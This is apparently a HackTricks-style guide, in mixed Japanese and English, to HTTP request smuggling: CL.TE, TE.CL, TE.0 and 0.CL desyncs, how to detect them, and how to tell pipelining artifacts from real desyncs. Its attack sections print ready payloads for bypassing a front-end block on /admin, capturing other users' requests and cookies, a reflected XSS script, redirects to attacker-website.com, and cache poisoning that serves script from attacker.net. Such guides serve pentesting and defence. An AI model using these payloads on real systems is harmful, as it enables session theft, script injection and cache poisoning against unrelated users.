

# HTTP Request Smuggling / HTTP Desync Attack

{{#include ../../banners/hacktricks-training.md}}


## What is

この脆弱性は、**front-end proxies** と **back-end** サーバーの間で**desyncronization** が起こると発生し、**attacker** が HTTP **request** を **send** したときに、**front-end** proxies（load balance/reverse-proxy）では **単一の request** として **interpreted** され、**back-end** サーバーでは **2 request** として **interpreted** されるようになります。\
これにより、ユーザーは**自分の後に back-end サーバーへ届く次の request を modify** できます。

### Theory

[**RFC Specification (2161)**](https://tools.ietf.org/html/rfc2616)

> If a message is received with both a Transfer-Encoding header field and a Content-Length header field, the latter MUST be ignored.

**Content-Length**

> The Content-Length entity header indicates the size of the entity-body, in bytes, sent to the recipient.

**Transfer-Encoding: chunked**

> The Transfer-Encoding header specifies the form of encoding used to safely transfer the payload body to the user.\
> Chunked means that large data is sent in a series of chunks

### Reality

**Front-End**（load-balance / Reverse Proxy）が _**content-length**_ か _**transfer-encoding**_ のどちらかの header を**process** し、**Back-end** サーバーが**もう一方を process** することで、2つのシステム間に**desyncronization** が発生します。\
これは非常に致命的になり得ます。なぜなら、**attacker will be able to send one request** を reverse proxy に送り、それが **back-end** サーバーでは **2つの異なる request** として **interpreted** されるからです。この technique の**danger** は、**back-end** サーバーが **injectされた 2nd request** を **次の client から来たもの**として**interpret** し、その client の **real request** が **injectされた request の一部**になってしまう点にあります。

### Particularities

HTTP では **new line character は 2 bytes で構成される**ことを覚えておいてください:

- **Content-Length**: この header は **decimal number** を使って request の body の **number of bytes** を示します。body は最後の character で終わることが想定されており、**request の末尾に new line は不要**です。
- **Transfer-Encoding:** この header は body 内で **hexadecimal number** を使って、**next chunk の number of bytes** を示します。**chunk** は **new line** で **end** しなければなりませんが、この new line は length indicator には **count されません**。この transfer method は、**サイズ 0 の chunk の後に 2つの new line** が続く形で終わる必要があります: `0`
- **Connection**: 経験上、request Smuggling の最初の request では **`Connection: keep-alive`** を使うことが推奨されます。

### Visible - Hidden

http/1.1 の主な問題は、すべての request が同じ TCP socket を通ることです。そのため、request を受け取る 2つの system 間で discrepancy が見つかると、最終的な backend（あるいは中間 system）に対して 1つの request を送ったつもりが **2つ以上の異なる request** として reated される可能性があります。

**[This blog post](https://portswigger.net/research/http1-must-die)** は、WAF にフラグされない system に対して desync attacks を検出する新しい方法を提案しています。そのために Visible vs Hidden の振る舞いを示しています。ここでの goal は、実際には何も exploit せずに desync を引き起こし得る technique を使って response の discrepancy を見つけることです。

たとえば、通常の host header と " host" header を持つ request を送ったとき、backend がこの request について complaint するなら（たとえば " host" の value が incorrect だからかもしれません）、front-end は " host" header を見ておらず、final backend はそれを使用した可能性があり、front-end と backend 間の desync を強く示唆します。

これは **Hidden-Visible discrepancy** です。

もし front-end が " host" header を考慮していたのに front-end がそうしていなかったなら、これは **Visible-Hidden** の状況だった可能性があります。

たとえば、これにより AWS ALB を front-end、IIS を backend とする desync を発見できました。これは "Host: foo/bar" を送ると ALB が `400, Server; awselb/2.0` を返しましたが、"Host : foo/bar" を送ると `400, Server: Microsoft-HTTPAPI/2.0` を返し、backend が response を返していることを示していたためです。これは Hidden-Vissible (H-V) の状況です。

この状況は AWS では修正されていませんが、`routing.http.drop_invalid_header_fields.enabled` と `routing.http.desync_mitigation_mode = strictest` を設定することで防ぐことができます。


## Basic Examples

> [!TIP]
> Burp Suite でこれを exploit しようとするときは、repeater で **`Update Content-Length` と `Normalize HTTP/1 line endings` を無効化**してください。いくつかの gadget は newlines、carriage returns、そして malformed content-lengths を悪用するためです。

HTTP request smuggling attacks は、front-end と back-end サーバーが `Content-Length` (CL) と `Transfer-Encoding` (TE) header を解釈する方法の discrepancy を悪用する、曖昧な request を送ることで作られます。これらの attacks は主に **CL.TE**、**TE.CL**、**TE.TE** の形で現れます。各 type は、front-end と back-end サーバーがこれらの header をどのように優先するかの unique な組み合わせを表します。脆弱性は、同じ request をサーバーが異なる方法で処理することから生じ、予期しない、場合によっては malicious な結果を引き起こします。

### Basic Examples of Vulnerability Types



> [!TIP]
> 前の table に、TE.0 technique を追加すべきです。CL.0 technique と同様ですが、Transfer Encoding を使います。

#### CL.TE Vulnerability (Content-Length used by Front-End, Transfer-Encoding used by Back-End)

- **Front-End (CL):** `Content-Length` header に基づいて request を process します。
- **Back-End (TE):** `Transfer-Encoding` header に基づいて request を process します。
- **Attack Scenario:**

- attacker は、`Content-Length` header の value が実際の content length と一致しない request を送ります。
- front-end server は `Content-Length` の value に基づいて request 全体を back-end に forward します。
- back-end server は `Transfer-Encoding: chunked` header により chunked として request を process し、残りの data を別の subsequent request として解釈します。
- **Example:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 30
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```

#### TE.CL Vulnerability (Transfer-Encoding used by Front-End, Content-Length used by Back-End)

- **Front-End (TE):** `Transfer-Encoding` header に基づいて request を process します。
- **Back-End (CL):** `Content-Length` header に基づいて request を process します。
- **Attack Scenario:**

- attacker は、chunk size (`7b`) と実際の content length (`Content-Length: 4`) が一致しない chunked request を送ります。
- front-end server は `Transfer-Encoding` を尊重して request 全体を back-end に forward します。
- back-end server は `Content-Length` を尊重し、request の最初の部分 (`7b` bytes) だけを process して、残りを意図しない subsequent request の一部として残します。
- **Example:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0

```

#### TE.TE Vulnerability (Transfer-Encoding used by both, with obfuscation)

- **Servers:** どちらも `Transfer-Encoding` をサポートしていますが、片方は obfuscation によりそれを無視するよう騙される可能性があります。
- **Attack Scenario:**

- attacker は obfuscated な `Transfer-Encoding` header を持つ request を送ります。
- どちらの server（front-end か back-end）が obfuscation を認識できないかによって、CL.TE か TE.CL の vulnerability を exploit できます。
- ある server から見て未処理の request 部分は subsequent request の一部となり、smuggling につながります。
- **Example:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

#### **CL.CL Scenario (Content-Length used by both Front-End and Back-End)**

- どちらの server も request を `Content-Length` header のみに基づいて process します。
- この scenario は通常 smuggling にはつながりません。両者の request length の解釈が一致しているためです。
- **Example:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Normal Request
```

#### **CL.0 Scenario**

- `Content-Length` header が存在し、0 以外の value を持つ scenario を指します。これは request body に content があることを示します。back-end は `Content-Length` header を無視します（0 として扱われます）が、front-end はそれを parse します。
- smuggling attacks を理解し、作成するうえで重要です。なぜなら、server が request の end をどう判断するかに影響するからです。
- **Example:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Non-Empty Body
```

#### TE.0 Scenario

- 前のものと同様ですが、TE を使います
- Technique [reported here](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/)
- **Example**:
```
OPTIONS / HTTP/1.1
Host: {HOST}
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Transfer-Encoding: chunked
Connection: keep-alive

50
GET <http://our-collaborator-server/> HTTP/1.1
x: X
0
EMPTY_LINE_HERE
EMPTY_LINE_HERE
```
#### `0.CL` シナリオ

`0.CL` の状況では、次のように `Content-Length` を使ってリクエストが送信されます:
```
GET /Logon HTTP/1.1
Host: <redacted>
Content-Length:
7

GET /404 HTTP/1.1
X: Y
```
そしてフロントエンドは `Content-Length` を考慮しないので、最初のリクエストだけをバックエンドに送ります（例では 7 まで）。しかし、バックエンドは `Content-Length` を見て、決して届かない body を待ちます。なぜならフロントエンドはすでに response を待っているからです。

ただし、バックエンドに送れて、かつ request の body を受け取る前に response される request がある場合、この deadlock は起こりません。たとえば IIS では、これは `/con` のような forbidden words に対する request を送ることで発生します（[documentation](https://learn.microsoft.com/en-us/windows/win32/fileio/naming-a-file) を参照）。この方法では、最初の request は直接 response され、2つ目の request には victim の request が含まれることになります。
```
GET / HTTP/1.1
X: yGET /victim HTTP/1.1
Host: <redacted>
```
これは desync を引き起こすのに有用ですが、今のところ影響はありません。

しかし、その記事では **[0.CL attack を double desync で CL.0 に変換する](https://portswigger.net/research/http1-must-die)** ことで、この問題への解決策を提示しています。

#### web server を壊す

この technique は、**初期の HTTP data を読み取っている間に web server を壊せる**が、**connection を閉じない**ようなシナリオでも有用です。こうすることで、HTTP request の **body** は **次の HTTP request** として扱われます。

たとえば、[**this writeup**](https://mizu.re/post/twisty-python) で説明されているように、Werkzeug では一部の **Unicode** characters を送ることで server を **break** させることができました。しかし、HTTP connection が header **`Connection: keep-alive`** 付きで作成されていた場合、request の body は読み取られず、connection は開いたままなので、request の **body** は **次の HTTP request** として扱われます。

#### hop-by-hop headers による強制

hop-by-hop headers を悪用すると、proxy に対して **Content-Length または Transfer-Encoding header を削除する**よう指示でき、その結果、HTTP request smuggling を悪用可能になります。
```
Connection: Content-Length
```
For **hop-by-hop headers についての詳細**は、以下をご覧ください:


{{#ref}}
../abusing-hop-by-hop-headers.md
{{#endref}}

## HTTP Request Smuggling の発見

HTTP request smuggling の脆弱性の特定は、サーバーが改変されたリクエストに応答するまでにどれだけ時間がかかるかを観測するタイミング手法で実現できることがよくあります。これらの手法は、特に CL.TE と TE.CL の脆弱性の検出に有用です。これら以外にも、そのような脆弱性を見つけるために使える他の戦略やツールがあります:

### タイミング手法を使った CL.TE 脆弱性の発見

- **Method:**

- もしアプリケーションに脆弱性があれば、バックエンドサーバーが追加データを待つようになるリクエストを送信します。
- **Example:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 4

1
A
0
```

- **Observation:**
- フロントエンドサーバーは `Content-Length` に基づいてリクエストを処理し、メッセージを早すぎる段階で切り詰めます。
- バックエンドサーバーは chunked メッセージを想定して次の chunk を待ちますが、その chunk は届かないため、遅延が発生します。

- **Indicators:**
- 応答のタイムアウトや長い遅延。
- バックエンドサーバーから 400 Bad Request エラーを受け取ることがあり、場合によっては詳細なサーバー情報が含まれます。

### タイミング手法を使った TE.CL 脆弱性の発見

- **Method:**

- もしアプリケーションに脆弱性があれば、バックエンドサーバーが追加データを待つようになるリクエストを送信します。
- **Example:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 6

0
X
```

- **Observation:**
- フロントエンドサーバーは `Transfer-Encoding` に基づいてリクエストを処理し、メッセージ全体を転送します。
- バックエンドサーバーは `Content-Length` に基づくメッセージを想定して追加データを待ちますが、そのデータは届かないため、遅延が発生します。

### 脆弱性を見つけるためのその他の方法

- **Differential Response Analysis:**
- リクエストのわずかに異なるバージョンを送信し、サーバーの応答が予期せず異なるかどうかを観察して、パースの不一致を示すか確認します。
- **Using Automated Tools:**
- Burp Suite の 'HTTP Request Smuggler' extension のようなツールは、さまざまな曖昧なリクエストを送信して応答を分析することで、これらの脆弱性を自動的にテストできます。
- **Content-Length Variance Tests:**
- 実際のコンテンツ長と一致しないさまざまな `Content-Length` 値を持つリクエストを送信し、サーバーがその不一致をどう処理するかを観察します。
- **Transfer-Encoding Variance Tests:**
- ぼかしたり不正な形式の `Transfer-Encoding` ヘッダーを送信し、フロントエンドサーバーとバックエンドサーバーがその操作にどう違って応答するかを監視します。

### `Expect: 100-continue` ヘッダー

このヘッダーが http desync の悪用にどう役立つかを以下で確認してください:

{{#ref}}
../../network-services-pentesting/pentesting-web/special-http-headers.md
{{#endref}}

### HTTP Request Smuggling の脆弱性テスト

タイミング手法の有効性を確認した後は、クライアントのリクエストを操作できるかを検証することが重要です。簡単な方法は、リクエストの poisoning を試すこと、たとえば `/` へのリクエストで 404 応答を返させることです。前述の [Basic Examples](#basic-examples) にある `CL.TE` と `TE.CL` の例は、クライアントが別のリソースへのアクセスを意図していても、クライアントのリクエストを poisoning して 404 応答を引き起こす方法を示しています。

**Key Considerations**

他のリクエストに干渉することで request smuggling の脆弱性をテストする際は、次の点に注意してください:

- **Distinct Network Connections:** "attack" と "normal" のリクエストは、別々のネットワーク接続で送信する必要があります。両方に同じ接続を使っても、脆弱性の存在を確認したことにはなりません。
- **Consistent URL and Parameters:** 両方のリクエストで、URL とパラメータ名を同一にすることを目指してください。現代のアプリケーションは、URL とパラメータに基づいてリクエストを特定のバックエンドサーバーへ振り分けることがよくあります。これらを一致させることで、両方のリクエストが同じサーバーで処理される可能性が高まり、攻撃成功の前提条件を満たしやすくなります。
- **Timing and Racing Conditions:** 干渉を検出するための "normal" リクエストは、他の同時実行中のアプリケーションリクエストと競合します。そのため、"attack" リクエストの直後に "normal" リクエストを送信してください。負荷の高いアプリケーションでは、脆弱性を確実に確認するために複数回の試行が必要になることがあります。
- **Load Balancing Challenges:** フロントエンドサーバーが load balancer として機能している場合、リクエストは複数のバックエンドシステムに分散されることがあります。"attack" と "normal" のリクエストが別々のシステムに送られると、攻撃は成功しません。この load balancing の特性により、脆弱性確認に複数回の試行が必要になることがあります。
- **Unintended User Impact:** もし攻撃が意図せず別のユーザーのリクエスト（検出用に送った "normal" リクエストではないもの）に影響を与えた場合、それは攻撃が別のアプリケーションユーザーに影響を及ぼしたことを示します。継続的なテストは他のユーザーを妨害する可能性があるため、慎重に行う必要があります。

## HTTP/1.1 pipelining artifacts と genuine request smuggling の見分け方

接続の再利用 (keep-alive) と pipelining は、同じ socket 上で複数のリクエストを送るテストツールにおいて、簡単に "smuggling" の見せかけを生み出します。害のないクライアント側の artifacts と、実際のサーバー側 desync を見分けられるようにしてください。

### なぜ pipelining は典型的な false positive を生むのか

HTTP/1.1 は 1 つの TCP/TLS 接続を再利用し、同じ stream 上でリクエストとレスポンスを連結します。pipelining では、クライアントは複数のリクエストを連続して送信し、順番どおりのレスポンスを前提とします。よくある false positive は、不正な CL.0 形式の payload を 1 つの接続で 2 回再送することです:
```
POST / HTTP/1.1
Host: hackxor.net
Content_Length: 47

GET /robots.txt HTTP/1.1
X: Y
```
Responseは次のようになります:
```
HTTP/1.1 200 OK
Content-Type: text/html

```

```
HTTP/1.1 200 OK
Content-Type: text/plain

User-agent: *
Disallow: /settings
```
サーバーが不正な `Content_Length` を無視した場合、FE↔BE desync はありません。reuse を使うと、あなたのクライアントは実際にはこの byte-stream を送信しており、サーバーはそれを2つの独立した request として解析しました:
```
POST / HTTP/1.1
Host: hackxor.net
Content_Length: 47

GET /robots.txt HTTP/1.1
X: YPOST / HTTP/1.1
Host: hackxor.net
Content_Length: 47

GET /robots.txt HTTP/1.1
X: Y
```
Impact: none. You just desynced your client from the server framing.

> [!TIP]
> 依存する Burp modules の reuse/pipelining: `requestsPerConnection>1` を使う Turbo Intruder、"HTTP/1 connection reuse" を使う Intruder、"Send group in sequence (single connection)" または "Enable connection reuse" を使う Repeater。

### Litmus tests: pipelining or real desync?

1. reuse を無効化して再テストする
- Burp Intruder/Repeater では、HTTP/1 reuse をオフにし、"Send group in sequence" を避ける。
- Turbo Intruder では、`requestsPerConnection=1` と `pipeline=False` にする。
- これで挙動が消えるなら、それは client-side pipelining の可能性が高い。ただし、connection-locked/stateful targets や client-side desync を扱っている場合は別。
2. HTTP/2 nested-response check
- HTTP/2 request を送る。response body に完全な nested HTTP/1 response が含まれていれば、純粋な client artifact ではなく backend の parsing/desync bug を証明できる。
3. connection-locked front-ends 向け partial-requests probe
- 一部の FE は、client が upstream の再利用をした場合にのみ upstream BE connection を再利用する。partial-requests を使って、client の reuse に追従する FE の挙動を検出する。
- connection-locked technique については PortSwigger "Browser‑Powered Desync Attacks" を参照。
4. State probes
- 同じ TCP connection 上で、最初の request と 2 回目以降の request の違いを探す（first-request routing/validation）。
- Burp "HTTP Request Smuggler" には、これを自動化する connection‑state probe が含まれている。
5. Wire を可視化する
- Burp "HTTP Hacker" extension を使って、reuse と partial requests を試しながら concatenation と message framing を直接確認する。

### Connection‑locked request smuggling (reuse-required)

一部の front-ends は、client が自分の connection を再利用した場合にのみ upstream connection を再利用する。実際に smuggling は存在するが、client-side reuse が条件になっている。これを見分けて impact を証明するには:
- server-side bug を証明する
- HTTP/2 nested-response check を使う、または
- partial-requests を使って、client が再利用したときにのみ FE が upstream を再利用することを示す。
- direct な cross-user socket abuse がブロックされていても、実際の impact を示す:
- Cache poisoning: desync を介して shared cache を汚染し、response が他の user に影響するようにする。
- Internal header disclosure: FE が注入した headers（例: auth/trust headers）を反映させ、auth bypass へつなげる。
- FE controls bypass: 制限された path/method を front-end の先へ smuggle する。
- Host-header abuse: host routing の癖と組み合わせて、internal vhosts へ pivot する。
- Operator workflow
- Turbo Intruder `requestsPerConnection=2`、または Burp Repeater tab group → "Send group in sequence (single connection)" で、controlled reuse を使って再現する。
- その後、cache/header-leak/control-bypass primitives に連結し、cross-user または authorization への impact を示す。

> See also connection‑state attacks, which are closely related but not technically smuggling:
>
>{{#ref}}
>../http-connection-request-smuggling.md
>{{#endref}}

### Client‑side desync constraints

browser-powered/client-side desync を狙う場合、悪意のある request は browser から cross-origin で送信可能でなければならない。Header obfuscation の tricks は使えない。navigation/fetch で到達可能な primitives に集中し、その後 downstream components が response を反映または cache する箇所で、cache poisoning、header disclosure、または front-end control bypass へ pivot する。

背景と end-to-end workflows については:

{{#ref}}
browser-http-request-smuggling.md
{{#endref}}

### Tooling to help decide

- HTTP Hacker (Burp BApp Store): 低レベルの HTTP behavior と socket concatenation を可視化する。
- "Smuggling or pipelining?" Burp Repeater Custom Action: https://github.com/PortSwigger/bambdas/blob/main/CustomAction/SmugglingOrPipelining.bambda
- Turbo Intruder: `requestsPerConnection` により connection reuse を精密に制御できる。
- Burp HTTP Request Smuggler: first-request routing/validation を見つける connection‑state probe を含む。

> [!NOTE]
> reuse-only effects は、server-side desync を証明し、具体的な impact（poisoned cache artifact、privilege bypass を可能にする leaked internal header、bypassed FE control など）を示せない限り、non-issues とみなすこと。

## Abusing HTTP Request Smuggling

### Circumventing Front-End Security via HTTP Request Smuggling

Sometimes, front-end proxies enforce security measures, scrutinizing incoming requests. However, these measures can be circumvented by exploiting HTTP Request Smuggling, allowing unauthorized access to restricted endpoints. For instance, accessing `/admin` might be prohibited externally, with the front-end proxy actively blocking such attempts. Nonetheless, this proxy may neglect to inspect embedded requests within a smuggled HTTP request, leaving a loophole for bypassing these restrictions.

Consider the following examples illustrating how HTTP Request Smuggling can be used to bypass front-end security controls, specifically targeting the `/admin` path which is typically guarded by the front-end proxy:

**CL.TE Example**
```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Transfer-Encoding: chunked

0
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

x=
```
CL.TE attackでは、`Content-Length` header が最初の request に利用され、その後に埋め込まれた request では `Transfer-Encoding: chunked` header が利用されます。front-end proxy は最初の `POST` request を処理しますが、埋め込まれた `GET /admin` request を確認できないため、`/admin` path への unauthorized access が可能になります。

**TE.CL Example**
```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0

```
逆に、TE.CL 攻撃では、最初の `POST` リクエストは `Transfer-Encoding: chunked` を使用し、その後に埋め込まれたリクエストは `Content-Length` ヘッダーに基づいて処理されます。CL.TE 攻撃と同様に、フロントエンド proxy は smuggled された `GET /admin` リクエストを見落とし、結果として制限された `/admin` パスへのアクセスを誤って許可します。

### フロントエンドの request rewriting を明らかにする <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>

Applications は、バックエンド server に渡す前に受信リクエストを変更するために、しばしば **front-end server** を利用します。典型的な変更には、`X-Forwarded-For: <IP of the client>` のような headers を追加して、client の IP をバックエンドに伝えることが含まれます。これらの変更を理解することは重要です。なぜなら、それによって **protections を bypass する方法** や **隠された情報や endpoints を見つける方法** が明らかになる可能性があるからです。

proxy がリクエストをどのように変更するかを調べるには、back-end が response でその値を echo する POST parameter を見つけます。次に、次のように、その parameter を最後に置いて request を作成します:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Connection: keep-alive
Transfer-Encoding: chunked

0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```
この構造では、後続の request components は `search=` の後ろに追加され、これは response で反映される parameter です。この reflection により、後続の request の headers が露出します。

nested request の `Content-Length` header を実際の content length に合わせることが重要です。小さい値から始めて徐々に増やしていくのが望ましく、値が低すぎると reflected data が途中で切れ、値が高すぎると request が error になる可能性があります。

この technique は TE.CL vulnerability の文脈でも適用できますが、その場合 request は `search=\r\n0` で終わる必要があります。newline characters に関係なく、値は search parameter に追加されます。

この method は主に、front-end proxy によって加えられた request modifications を理解するためのもので、要するに自己主導の調査を行うものです。

### Capturing other users' requests <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>

POST operation 中に parameter の value として特定の request を追加することで、次の user の request を capture することが可能です。これを実現する方法は次のとおりです:

以下の request を parameter の value として追加すると、後続の client の request を保存できます:
```
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
```
このシナリオでは、**comment parameter** は、公開アクセス可能なページ上の投稿のコメント欄内にある内容を保存するために意図されています。その結果、後続の request の内容が comment として表示されます。

しかし、この technique には制限があります。一般的に、smuggled request 内で使われた parameter delimiter までのデータしか取得できません。URL-encoded form submissions では、この delimiter は `&` 文字です。つまり、victim user の request から取得された内容は最初の `&` で止まり、query string の一部である可能性さえあります。

さらに、TE.CL vulnerability でもこの approach が有効であることに注意してください。この場合、request は `search=\r\n0` で終える必要があります。newline characters に関係なく、values は search parameter に追加されます。

### Using HTTP request smuggling to exploit reflected XSS

HTTP Request Smuggling は、**Reflected XSS** に脆弱な web pages を exploit するために利用でき、大きな利点があります:

- target users との interaction が**不要**です。
- 通常は到達できない request の一部、たとえば HTTP request headers における XSS の exploit を可能にします。

website が User-Agent header 経由の Reflected XSS に脆弱な場合、以下の payload はこの vulnerability を exploit する方法を示しています:
```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

A=
```
この payload は、以下のように vulnerability を exploit するために構成されています。

1. `POST` request を開始し、`Transfer-Encoding: chunked` header を付けて smuggling の開始を示します。
2. 続けて `0` を送信し、chunked message body の終了を示します。
3. その後、smuggled された `GET` request を挿入します。ここで `User-Agent` header に `<script>alert(1)</script>` を埋め込み、server がこの後続 request を処理したときに XSS を発生させます。

`User-Agent` を smuggling で操作することで、この payload は通常の request 制約を回避し、Reflected XSS vulnerability を非標準ながら効果的な方法で exploit します。

#### HTTP/0.9

> [!CAUTION]
> ユーザーコンテンツが **`Content-type`** などの **`text/plain`** として response に反映される場合、XSS の実行を防いでしまいます。server が **HTTP/0.9** をサポートしていれば、これを bypass できる可能性があります！

HTTP/0.9 は 1.0 より前の version で、**GET** verb のみを使用し、**headers** を返さず、body のみを返します。

[**this writeup**](https://mizu.re/post/twisty-python) では、request smuggling と、**user の入力を返す vulnerable endpoint** を利用して、HTTP/0.9 を使った request を smuggle する手法が悪用されました。response に反映される parameter には、**fake な HTTP/1.1 response（headers と body 付き）** が含まれており、その結果、`Content-Type` が `text/html` の有効な実行可能 JS code を response に含めることができました。

### HTTP Request Smuggling を使った On-site Redirects の Exploitation <a href="#exploiting-on-site-redirects-with-http-request-smuggling" id="exploiting-on-site-redirects-with-http-request-smuggling"></a>

application はしばしば、`Host` header の hostname を redirect URL に使用することで、ある URL から別の URL へ redirect します。これは Apache や IIS のような web servers で一般的です。例えば、末尾のスラッシュなしで folder を request すると、スラッシュを付けるための redirect が発生します：
```
GET /home HTTP/1.1
Host: normal-website.com
```
結果は以下のとおりです:
```
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```
一見無害に見えますが、この挙動はHTTP request smugglingを使って操作し、ユーザーを外部サイトへリダイレクトさせることができます。例えば:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
このsmuggled requestにより、次に処理されるuser requestがattacker-controlled websiteにredirectされる可能性があります:
```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```
結果:
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
このシナリオでは、ユーザーの JavaScript ファイルへのリクエストが hijack されます。攻撃者は、応答として malicious JavaScript を配信することで、ユーザーを compromise できる可能性があります。

### Exploiting Web Cache Poisoning via HTTP Request Smuggling <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Web cache poisoning は、**front-end infrastructure のいずれかの component が content を cache している**場合に実行できます。通常は performance を向上させるためです。server の response を操作することで、**cache を poison** することが可能です。

以前に、server response を変更して 404 error を返させる方法を見ました（[Basic Examples](#basic-examples) を参照）。同様に、`/static/include.js` への request に対して `/index.html` の content を返すよう server を騙すことも可能です。その結果、`/static/include.js` の content は cache 内で `/index.html` のものに置き換えられ、`/static/include.js` は users から利用できなくなり、Denial of Service (DoS) につながる可能性があります。

この technique は、**Open Redirect vulnerability** が見つかった場合、または **on-site redirect to an open redirect** がある場合に、特に強力になります。こうした vulnerability は、`/static/include.js` の cached content を attacker の制御下にある script に置き換えるために悪用でき、更新された `/static/include.js` を要求するすべての clients に対して、広範囲の Cross-Site Scripting (XSS) attack を実質的に可能にします。

以下は、**cache poisoning と on-site redirect to open redirect の組み合わせ**を悪用する例です。目的は、`/static/include.js` の cache content を変更して、attacker が制御する JavaScript code を配信させることです:
```
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
`/post/next?postId=3` を対象とする埋め込み request に注目してください。この request は `/post?postId=4` に redirected され、domain を決定するために **Host header value** を利用します。**Host header** を変更することで、attacker は request を自分の domain に redirect できます（**on-site redirect to open redirect**）。

**socket poisoning** に成功した後、`/static/include.js` への **GET request** を開始する必要があります。この request は、直前の **on-site redirect to open redirect** request によって汚染され、attacker が制御する script の content を取得します。

その後は、`/static/include.js` へのどの request も attacker の script の cached content を返すようになり、結果として広範囲な XSS attack を引き起こします。

